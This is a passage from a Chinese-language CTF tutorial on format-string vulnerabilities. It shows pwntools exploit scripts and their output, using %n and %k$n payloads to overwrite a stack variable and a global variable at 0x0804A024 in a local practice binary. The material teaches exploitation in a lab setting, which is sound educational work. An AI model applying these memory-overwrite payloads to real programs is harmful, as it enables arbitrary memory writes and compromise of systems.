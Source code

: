 ```python
def forc():
    sh = process('./overwrite')
    c_addr = int(sh.recvuntil('\n', drop=True), 16)
    print hex(c_addr)
    payload = p32(c_addr) + '%012d' + '%6$n'
    print payload
    #gdb.attach(sh)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()

forc()
```

结果如下

```shell
➜  overwrite git:(master) ✗ python exploit.py
[+] Starting local process './overwrite': pid 74806
0xfffd8cdc
܌��%012d%6$n
܌��-00000160648modified c.
```

### 覆盖任意地址内存

#### 覆盖小数字

首先，我们来考虑一下如何修改data段的变量为一个较小的数字，比如说，**小于机器字长的数字**。这里以2为例。可能会觉得这其实没有什么区别，可仔细一想，真的没有么？如果我们还是将要覆盖的地址放在最前面，那么将直接占用机器字长个(4或8)字节。显然，无论之后如何输出，都只会比4大。

> 或许我们可以使用整形溢出来修改对应的地址的值，但是这样将面临着我们得一次输出大量的内容。而这，一般情况下，基本都不会攻击成功。

那么我们应该怎么做呢？再仔细想一下，我们有必要将所要覆盖的变量的地址放在字符串的最前面么？似乎没有，我们当时只是为了寻找偏移，所以才把tag放在字符串的最前面，如果我们把tag放在中间，其实也是无妨的。类似的，我们把地址放在中间，只要能够找到对应的偏移，其照样也可以得到对应的数值。前面已经说了我们的格式化字符串的为第6个参数。由于我们想要把2写到对应的地址处，故而格式化字符串的前面的字节必须是

```text
aa%k$nxx
```

此时对应的存储的格式化字符串已经占据了6个字符的位置，如果我们再添加两个字符aa，那么其实aa%k就是第6个参数，$nxx其实就是第7个参数，后面我们如果跟上我们要覆盖的地址，那就是第8个参数，所以如果我们这里设置k为8，其实就可以覆盖了。

利用ida可以得到a的地址为0x0804A024（由于a、b是已初始化的全局变量，因此不在堆栈中）。

```asm
.data:0804A024                 public a
.data:0804A024 a               dd 7Bh
```

故而我们可以构造如下的利用代码

```python
def fora():
    sh = process('./overwrite')
    a_addr = 0x0804A024
    payload = 'aa%8$naa' + p32(a_addr)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```
